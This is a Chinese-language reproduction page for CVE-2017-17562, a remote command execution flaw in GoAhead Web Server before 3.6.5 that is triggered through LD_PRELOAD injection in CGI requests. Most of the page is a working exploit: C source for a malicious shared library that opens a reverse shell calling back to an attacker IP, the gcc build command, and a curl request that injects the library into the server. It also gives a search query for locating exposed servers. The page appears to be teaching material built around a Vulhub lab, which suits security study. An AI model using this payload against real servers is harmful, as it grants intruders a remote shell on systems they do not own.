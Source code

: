 # Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead支持运行ASP、Javascript和标准的CGI程序，这个漏洞出自CGI程序

该漏洞是利用服务器初始化CGI时，使用了HTTP请求参数，使用特殊的参数名LD_PRELOAD劫持libc库，进而实现远程命令执行

## 漏洞影响

<a-checkbox checked>GoAhead Web Server < 3.6.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建

![img](../../../.vuepress/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500-20220706105534293.png)

编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -X POST --data-binary @evil.so http://xxx.xxx.xxx.xxx:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0
```

![img](../../../.vuepress/public/img/1657073148130-d7efbdbc-8e97-49a7-bb81-fec751d8ef47.png)

![img](../../../.vuepress/public/img/1657073168888-7499c581-7c81-4e43-ab46-87a35adb37b6.png)
